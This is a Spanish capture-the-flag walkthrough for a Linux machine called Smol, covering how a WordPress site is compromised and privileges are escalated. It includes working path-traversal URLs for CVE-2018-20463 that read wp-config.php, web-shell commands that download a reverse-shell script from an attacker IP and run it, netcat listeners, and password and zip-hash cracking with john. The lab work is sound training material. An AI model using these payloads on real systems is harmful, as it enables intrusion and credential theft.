# Maquina: Smol
- Dificultad: Medio
- OS: Linux
- Tipo: CTF



---

## Resolucion

Iniciando la fase de escaneo con nmap se pudieron descubrir dos puertos.
El puerto 80 que alberga un servicio web y el puerto 22 con una coneccion de ssh.



> Nota
> La web responde a un dominio, hay que agregar una linea al archivo /etc/hosts
> <IP> www.smol.thm

Desde el navegador se puede ver una pagina web con informacion sobre terminos de cyberseguridad.



Al final de la web se puede identificar que la pagina es un wordpress.
Usando la herramienta **wpscan** se pudo ver informacion interesante, viendo un plugin que vale la pena investigar.

``` bash
wpscan --url http://www.smol.thm --enumerate p
```



Investigando un poco sobre este servicio y version encontramos el **CVE-2018-20463**.
Usando esta vulnerabilidad lograremos leer archivos de el sistema, buscando el archivo de configuracion de wordpress para obtener credenciales.

``` php
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

accediendo a este recurso se logro ver el usuario y clave, los cuales sirven para acceder al wordpress.



Desde pages > all pages > web master se puede encontrar algo interesante, una referencia a un plugin llamado **Hello Dolly**.
Usando la misma vulnerabilidad de antes se pudo encontrar y acceder a este plugin, encontrando informacion interesante.

``` php
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```
#

Observando esto se puede ver que la funcion **hello_dirty** contiene un mensaje en base64.



Usando cyberchef se pudo ver el mensaje en base64, Viendo que este contiene caracteres interesantes.



Cada uno de estos representa un caracter ASCII, logrando ver la palabra cmd, usando estos parametros en la url se pudo ejecutar codigo en el sistema.

```
\143 corresponde al carácter "c".
\155 corresponde al carácter "m".
\x64 corresponde al carácter "d".
```



Intente usar varias reverse shell desde la url, pero no funciono.
Desde nuestra terminal se creo un archivo que contiene una reverse shell en bash (por que el sistema es un GNU Linux).
Luego se creo un servidor simple con python, para compartir el archivo.



Desde el navegador se uso el parametro cmd, logrando descargar el archivo desde nuestra url y ejecutarlo.

``` php
http://www.smol.thm/wp-admin/index.php?cmd=wget http://192.168.213.217:8000/revshell.sh -O /tmp/rev.sh
```

Esperando con una sesion en escucha con netcat (en mi caso penelope) se puede acceder a la terminal de la maquina como el usuario **www-data**.

``` bash
# Sesion con netcat
nc -lvp 443

# Sesion con penelope
penelope -p 443
```

Y ya teniendo una coneccion en escucha queda ejecutar nuestro backdoor desde la url de la web.

``` php
http://www.smol.thm/wp-admin/index.php?cmd=bash /tmp/rev.sh
```

---

## Escalada de privilegios.

### www-data

ya dentro de la maquina se puede ver que hay una base de datos.
Accediendo a esta (con la misma clave que se uso para acceder al login de la web) se puede tener control sobre la base de datos.
Accediendo a la tabla de usuarios se puede ver toda la informacion de estos, viendo que las claves estan cifradas.



Copiando estos hashes y usando john para crackearlos se pueden obtener las claves de los usuarios.
El usuario que nos interesa es diego, ya que fue el unico que respondio a la coneccion ssh.



### Diego

La clave que desciframos con john fue la de el usuario diego, asi que solo queda acceder por ssh.

> Nota
> En el directorio principal de diego se puede ver la flag que se necesita.

### Think
Desde la terminal de diego se pueden leer los archivos de el usuario think.
Este tiene un directorio **.ssh** en donde se encuentra el archivo **id_rsa**.
Habiendo copiado el id_rsa en nuestra maquina (dandole permisos) y conectandose por ssh desde el usuario think.



### Gege

Resulta que el usuario think y gege comparten el mismo grupo, asi que solo haciendo un **su gege** se puede acceder a este.

### Xavi

Desde el directorio principal de el usuario gege se puede encontrar un archivo llamado **wordpress.old.zip**.
Este parece un backup de el wordpress que esta usando el sistema.

Desde la terminal de gege se creo un servidor de archivos con python, para transferirlo a nuestra maquina.



Resulta que este archivo tiene clave, asi que hay que extraer el hash de la clave en un archivo para poder crackearlo.

``` bash
zip2john wordpress.old.zip > w_hash.txt
```

Ya con el hash listo se uso john con el diccionario rockyou para crackear la clave, logrando obtener la clave que permitira descomprimir el archivo.



Descomprimiendo este archivo se logra obtener todo el wordpress, y aunque es una version anterior se puede encontrar informacion util.
Accediendo al usuario wp-config.php se pueden ver las credenciales de el usuario xavi.



### Root

Resulta que el usuario xavi tiene permisos totales con el usuario root.
Pudiendo acceder al usuario root, y consiguiendo la flag que se encuentra en el directorio **/root**.



---

## Pickle rick !!!


